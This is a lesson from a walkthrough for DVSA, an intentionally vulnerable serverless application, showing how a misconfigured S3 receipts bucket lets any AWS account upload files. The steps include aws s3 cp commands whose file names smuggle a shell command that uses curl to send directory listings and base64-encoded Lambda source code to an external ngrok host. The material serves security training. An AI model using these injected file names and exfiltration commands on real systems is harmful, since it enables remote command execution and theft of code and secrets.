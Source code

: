 
# LESSON #4: Insecure Cloud Configuration

The DVSA is using cloud storage (i.e. S3 bucket) to upload order receipts. After a payment is processed successfully, a receipts is issued and uploaded to the bucket. When the order is processed for shipment, the file is downloaded from the bucket, modified and uploaded back as a final format receipt that is sent to the user via email.

However, since the S3 is configured insecurely, it is possible to upload files to the bucket with any AWS account. For example, if you install the aws-sdk, you can simply run the command: 

`aws s3 cp /path/to/local/file s3://DVSA-RECEIPTS-BUCKET-{id}`

![alt s3-upload](https://i.imgur.com/K3sE1pf.png)

*Note, that you won't be able to run `ls` with an account different thatn the account where the DVSA is deployed, since it is misconfigured with WRITE permissions, and not with READ. At least not yet :)*

Let's see how to exploit it:

1. If you completed at least one order, you will receive an email with a link to download the receipt. It should look something like that:

![alt receript-sample](https://i.imgur.com/XwcHgF3.png)


You can notice that the path to the file in the bucket is the date. e.g. 2018/12/24/{receipt-uuid}.txt.

2. So let's fake a receipt and see what happens. Using the aws-sdk we can simply run the command:

```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null_;curl 0c971764.ngrok.io?data="$(ls)";echo x.raw' --profile hacker
```
(The *echo x.raw* at the end of the file name is used to trigger the function, which is only triggered when a .raw file is created).

![alt ls](https://i.imgur.com/h9mw2qV.png)


3. We know the file's name, let's extract its code:
```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null;curl 0c971764.ngrok.io?code="$(cat lambda_function.py | base64 --wrap=0)" echo x.raw' --profile hacker
```

We now have the code in Base64 (I cut out most of it for a better screenshot).
![alt b64-code](https://i.imgur.com/KcklwO0.png)


Let's decode: `echo <BASE64_STRING> | base64 --decode > /tmp/lambda.py`

![alt code](https://i.imgur.com/GD3YwJg.png)

We can now see the vulnerable code - os.system() - which uses the name of the uploaded file as part of the command. 

You now have all the information further exploit it, [stealing keys](../LESSONS/LESSON_05.md) or executing any other command.


- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)

